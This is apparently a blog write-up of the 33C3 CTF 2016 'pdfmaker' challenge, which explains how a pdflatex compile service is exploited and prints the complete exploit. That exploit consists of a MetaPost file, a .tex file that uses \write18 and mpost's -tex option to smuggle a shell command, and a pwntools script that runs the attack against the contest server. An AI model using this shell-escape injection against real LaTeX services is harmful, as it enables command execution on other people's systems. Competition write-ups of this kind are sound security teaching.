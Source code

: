 ```yaml
---
title: '33C3 CTF 2016 -- pdfmaker'
date: 2016-12-29 21:05
tags:
  - 33C3
  - CTF
  - Python
  - pdflatext
  - Misc
categories:
  - write-ups
---
```

**Category:** Misc
**Points:** 75

>Just a tiny [application](https://gist.github.com/bruce30262/80b089e24d3a34862fe78892c63d8dcf), that lets the user write some files and compile them with pdflatex. 
>What can possibly go wrong?
>nc 78.46.224.91 24242

<!-- more -->  

So this is a service that allow us to create, show & compile some files.
* `create`: Create a file. Valid file format are: `.log`, `.tex`, `.mb`, `.sty` & `.bib`
* `show`: Show the file content.
* `compile`: Compile a file with the `pdflatex` command.

We started by googling the key word **"pdflatex exploit"**, then teammate **mike** found a useful link: [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

Basically we just need to follow the method mentioned in the post:
1. Create a `.mp` file
2. Create a `.tex` file with the malicious content. Here we change the command to `(cat${IFS}$(ls|grep${IFS}33C3))>qqq.log`, which will later store the flag content into `qqq.log`
3. Compile the `.tex` file. This will cause `pdflatext` execute our command
4. Show the `qqq.log` file and get the flag

Here's our final exploit:

```txt sss.mp
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
```

```txt aaa.tex
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}$(ls|grep${IFS}33C3))>qqq.log" "sss.mp"}
\end{document}
```

```python exp.py
from pwn import *

r = remote("78.46.224.91", 24242)

log.info("creating sss.mp...")
r.sendlineafter(">", "create mp sss")
r.recvline()
f = open("sss.mp", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

log.info("creating aaa.tex...")
r.sendlineafter(">", "create tex aaa")
r.recvline()
f = open("aaa.tex", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

r.sendlineafter(">", "compile aaa")
r.sendlineafter(">", "show log qqq")

r.interactive()
```

**Don't take LaTEX files from strangers!!**

flag: `33C3_pdflatex_1s_t0t4lly_s3cur3!`

